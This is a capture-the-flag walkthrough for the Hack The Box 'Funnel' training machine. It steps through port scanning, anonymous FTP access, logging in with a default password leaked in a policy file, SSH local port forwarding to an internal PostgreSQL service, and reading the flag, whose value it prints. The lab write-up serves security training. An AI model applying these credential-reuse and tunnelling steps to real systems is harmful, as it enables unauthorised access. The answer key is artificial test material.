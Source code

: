 # HTB Starting Point - Tier1 - Funnel 
### How many TCP ports are open?
  `nmap -sT -p- -T5 <target-ip>`  
  PORT   STATE SERVICE  
  21/tcp open  ftp  
  22/tcp open  ssh  
> 2

### What is the name of the directory that is available on the FTP server?
  `ftp anonymous@<target_ip>`  
  Connected to 10.129.181.13.  
  220 (vsFTPd 3.0.3)  
  331 Please specify the password.  
  Password:   
  230 Login successful.  
  Remote system type is UNIX.  
  Using binary mode to transfer files.  
  ftp> `ls`  
  229 Entering Extended Passive Mode (|||27618|)  
  150 Here comes the directory listing.
> drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

  226 Directory send OK.    
  ftp> `cd mail_backup`  
  250 Directory successfully changed.  
  ftp> `ls`  
  229 Entering Extended Passive Mode (|||35323|)
  150 Here comes the directory listing.
> -rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf  
> -rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022

  226 Directory send OK.
  ftp> `mget password_policy.pdf welcome_28112022` // to download  

# What is the default account password that every new member on the "Funnel" team should change as soon as possible?

password_policy.pdf:

![screenshot](./img/password_policy.png)

> funnel123#!#

# Which user has not changed their default password yet?

welcome_28112022: 

Frome: root@funnel.htb  
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb  
Subject:Welcome to the team!  

Hello everyone,  
We would like to welcome you to our team.   
We think you’ll be a great asset to the "Funnel" team and want to make sure you get settled in as smoothly as   possible.  
We have set up your accounts that you will need to access our internal infrastracture. Please, read through the   attached password policy with extreme care.  
All the steps mentioned there should be completed as soon as possible. If you have any questions or concerns   feel free to reach directly to your manager.   
We hope that you will have an amazing time with us,  
The funnel team.   

`ftp christine@<target_ip>` 

331 Please specify the password.  
Password:   
230 Login successful.  
Remote system type is UNIX.  
Using binary mode to transfer files.  
ftp> `ls`
229 Entering Extended Passive Mode (|||11719|)
150 Here comes the directory listing.
226 Directory send OK.

`ssh christine@<target_ip>`

christine@funnel:~$ `ss -tl`  
State      Recv-Q      Send-Q      Local Address:Port      Peer Address:Port      Process  
LISTEN      0          4096         127.0.0.1:39181            0.0.0.0:*  
LISTEN      0          4096         127.0.0.53%lo:domain       0.0.0.0:*  
LISTEN      0          128          0.0.0.0:ssh                0.0.0.0:*  
LISTEN      0          4096         127.0.0.1:postgresql       0.0.0.0:*  
LISTEN      0          32           *:ftp                      *:*  
LISTEN      0          128          [::]:ssh                   [::]:*  

> postgresql

SSH TUNNELING EXPLANATION

The SSH protocol is vastly used for maintaining and accessing remote systems in a secure and encrypted way.  
But, it also offers the possibility to create tunnels that operate over the SSH protocol. More specifically, SSH offers various types of tunnels.  

The first type of tunneling we are going to take a look is called Local port forwarding. When local port forwarding is used, a separate tunnel is created inside the existing valid SSH session that forwards network traffic from a local port on the client's machine over to the remote server's port. Under the hood, SSH allocates a socket listener on the client on the given port. When a  connection is made to this port, the connection is forwarded over the existing SSH session over to the remote server's port.  

The second type of tunneling is called Remote port forwarding , also known as Reverse Tunneling and as one can imagine it is exactly the opposite operation of a Local port forwarding tunnel . Again, after a successful SSH connection, a separate tunnel is created which SSH uses to redirect incoming traffic to the server's port back to the client. Internally, SSH allocates a socket listener on the server on the given port.  
When a connection is made to this port, the connection is forwarded over the existing SSH session over to the local client's port.  

The third type of tunneling is called Dynamic port forwarding . The main issue with both local and remote forwarding is that a local and a remote port have to be defined prior to the creation of the tunnel. To address this issue, one can use dynamic tunneling . Dynamic tunneling, allows the users to specify just one port that will forward the incoming traffic from the client to the server dynamically. The usage of dynamic tunneling relies upon the SOCKS5 protocol.  

# Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?  

`ssh -L 1234:localhost:5432 christine@<target_ip>`  
`psql -U christine -h localhost -p 1234`  
  Password for user christine:   
  psql (17.6 (Debian 17.6-1), server 15.1 (Debian 15.1-1.pgdg110+1))  
  Type "help" for help.  
  christine=#   

> local port forwarding

# What is the name of the database that holds the flag?

christine-# `\l`   
                                                      List of databases
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | Locale | ICU Rules |    Access privileges       
-----------+-----------+----------+-----------------+------------+------------+--------+-----------+-------------------------  
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |   
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |   
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           |   
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/christine           +  
           |           |          |                 |            |            |        |           | christine=CTc/christine  
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |        |           | =c/christine           +  
           |           |          |                 |            |            |        |           | christine=CTc/christine  
  
christine-# `\c secrets`  
psql (17.6 (Debian 17.6-1), server 15.1 (Debian 15.1-1.pgdg110+1))  
You are now connected to database "secrets" as user "christine".  
secrets-# 


> secrets

# Could you use a dynamic tunnel instead of local port forwarding? Yes or No.
> Yes through proxychanis setting the proxy: socks5 127.0.0.1 1234 and using the following command: `proxychains psql -U christine -h localhost -p 5432`

# Submit root flag

secrets=# `SELECT * from flag;`
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1
(1 row)


